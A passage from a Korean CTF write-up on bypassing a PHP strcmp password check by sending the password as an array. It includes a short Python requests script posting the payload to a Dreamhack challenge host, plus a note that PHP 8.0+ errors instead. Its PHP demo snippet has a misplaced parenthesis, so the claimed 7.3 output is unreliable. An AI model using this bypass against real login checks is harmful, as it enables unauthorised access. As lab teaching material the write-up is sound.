 ![alt text](assets/img/strcmp/image_3.png)

그럼 위와 같이 응답으로 `$FLAG` 값이 출력되어서 전달되는 것을 확인할 수 있다.

Burp Suite 뿐만 아니라 python의 `requests` 모듈을 사용해서도, 아래와 같이 요청을 보내서 똑같이 확인해볼 수 있을 것이다.

```py
import requests

url = 'http://host3.dreamhack.games:20861/'
data = {"password[] ": ["e1", "e2"]}

response = requests.post(url, data=data)
print(response.text)
```

<br>

## 취약점 보호 방법

사실 **8.0** 이상의 최신 버전의 php에서는 아래와 같이 `strcmp`에 array 타입을 argument로 전달해줘도 `NULL` 값이 리턴되는 것이 아니라 error가 발생하여 종료된다.

예를 들어 아래의 코드가 **7.3** 버전에서는 yes를 출력하지만, **8.0** 버전에서는 error를 출력하며 종료된다.

```php
<?php
	$arr = Array("array");

	if(strcmp($arr,"str" == 0)){
		echo "yes";
	}
	else{
		echo "no";
	}
?>
```
